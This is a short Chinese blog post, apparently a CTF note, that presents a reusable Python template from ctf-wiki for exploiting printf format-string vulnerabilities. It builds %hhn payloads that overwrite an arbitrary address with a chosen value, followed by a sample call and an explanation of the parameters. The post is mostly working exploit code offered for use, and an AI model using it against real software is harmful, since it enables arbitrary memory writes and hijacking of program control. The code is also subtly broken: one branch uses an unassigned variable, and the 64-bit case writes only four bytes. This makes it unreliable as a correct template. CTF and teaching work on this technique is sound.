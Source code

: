 ```yaml
---
layout:     post
title:      "格式化字符串漏洞利用"
subtitle:   "覆盖任意地址的通用脚本"
date:       2018-08-10 12:00:00
author:     "Chris"
catalog: true
tags:
    - 笔记
 
---
```


当存在printf（输入内容）的漏洞时，可直接覆盖任意地址内容，这里直接给出模板，源于ctf-wiki

    def fmt(prev, word, index):
        if prev < word:
            result = word - prev
            fmtstr = "%" + str(result) + "c"
        elif prev == word:
            result = 0
        else:
            result = 256 + word - prev
            fmtstr = "%" + str(result) + "c"
        fmtstr += "%" + str(index) + "$hhn"
        return fmtstr


    def fmt_str(offset, size, addr, target):
        payload = ""
        for i in range(4):
            if size == 4:
                payload += p32(addr + i)
            else:
                payload += p64(addr + i)
        prev = len(payload)
        for i in range(4):
            payload += fmt(prev, (target >> i * 8) &    0xff, offset + i)
            prev = (target >> i * 8) & 0xff
        return payload

    payload=fmt_str(6,4,0x0804A028,0x12345678)


其中每个参数的含义基本如下

* offset表示输入字符串栈中的偏移
* size表示目的变量的机器字长
* addr表示将要覆盖的地址
* target表示我们要覆盖为的目的变量值